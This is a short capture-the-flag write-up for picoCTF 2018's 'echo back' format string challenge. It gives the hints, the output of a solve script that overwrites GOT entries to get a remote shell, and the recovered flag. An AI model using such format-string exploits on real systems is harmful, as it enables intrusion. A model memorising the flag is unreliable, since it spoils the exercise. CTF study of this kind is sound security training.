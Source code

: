 # echo back - Points: 500 - (Solves: 143)

This [program][1] we found seems to have a vulnerability.
Can you get a shell and retreive the flag?
Connect to it with nc 2018shell2.picoctf.com 37402.

[1]: https://2018shell2.picoctf.com/static/1f45696a25c8f532dacfd136349b2e7d/echoback

## Hints

- hmm, printf seems to be dangerous...
- You may need to modify more than one address at once.
- Ever heard of the Global Offset Table?

---

Format string:

```sh
$ py solve.py REMOTE
[*] '/home/zzzz/pico18/pwn/echo-back/echoback'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Trying to write:
    0x804a010 : 0x8048460
    0x804a01c : 0x80485ab
[+] Opening connection to 2018shell2.picoctf.com on port 37402: Done
[+] Here're your shell!
[*] Switching to interactive mode
total 76
drwxr-x---   2 hacksports echo-back_0  4096 Sep 28 07:45 .
drwxr-x--x 576 root       root        53248 Sep 30 03:50 ..
-rwxr-sr-x   1 hacksports echo-back_0  7684 Sep 28 07:45 echoback
-rw-rw-r--   1 hacksports hacksports    364 Sep 28 07:45 echoback.c
-r--r-----   1 hacksports echo-back_0    54 Sep 28 07:45 flag.txt
-rwxr-sr-x   1 hacksports echo-back_0   116 Sep 28 07:45 xinet_startup.sh
$ cat flag.txt
picoCTF{foRm4t_stRinGs_aRe_3xtra_DanGer0us_ee5a92ac}
```
